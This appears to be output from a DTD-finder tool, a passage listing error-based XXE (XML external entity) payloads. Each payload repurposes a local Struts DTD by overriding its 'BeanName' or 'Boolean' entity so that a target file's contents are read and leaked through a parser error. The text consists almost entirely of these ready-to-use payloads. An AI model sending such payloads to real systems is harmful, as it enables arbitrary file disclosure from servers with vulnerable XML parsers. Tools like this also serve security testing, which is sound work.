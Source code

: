 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd`

**Injectable entity:** `Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_3.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

